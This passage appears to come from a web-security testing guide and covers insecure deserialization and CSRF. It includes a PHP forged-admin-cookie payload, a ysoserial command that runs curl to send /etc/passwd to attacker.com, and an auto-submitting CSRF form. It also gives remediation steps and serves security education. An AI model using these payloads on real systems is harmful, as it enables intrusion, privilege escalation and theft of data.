 **Attack Payload:**
```php
// Generate malicious cookie
class User {
    public $username = "hacker";
    public $isAdmin = true;
}

$malicious = new User();
echo base64_encode(serialize($malicious));
// Result: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6ImhhY2tlciI7czo3OiJpc0FkbWluIjtiOjE7fQ==
```

**Advanced Java Deserialization with RCE:**
```bash
# Using ysoserial to generate payload
java -jar ysoserial.jar CommonsCollections5 'curl -d "$(cat /etc/passwd)" https://attacker.com' | base64
```

**HackerOne Report:** [#965052 - Java Deserialization in Uber](https://hackerone.com/reports/965052)

### Remediation

1. **Never deserialize untrusted data**
2. **Implement Integrity Checks (HMAC)**
3. **Use safe serialization formats (JSON with schema validation)**
4. **Deserialization filters (Java's ValidatingObjectInputStream)**
5. **Deploy WAF or RASP rules for common gadget chains**

---

## Cross-Site Request Forgery (CSRF)

CSRF attacks trick users into performing actions they didn't intend to perform.

### Detection

1. Identify state-changing operations (POST, PUT, DELETE)
2. Check for Anti-CSRF token implementation
3. Test if tokens are properly validated

**Sample CSRF PoC:**
```html
<html>
  <body>
    <form action="https://target.com/change-email" method="POST" id="exploit">
      <input type="hidden" name="email" value="hacker@evil.com" />
    </form>
    <script>
      document.getElementById("exploit").submit();
    </script>
  </body>
</html>
```
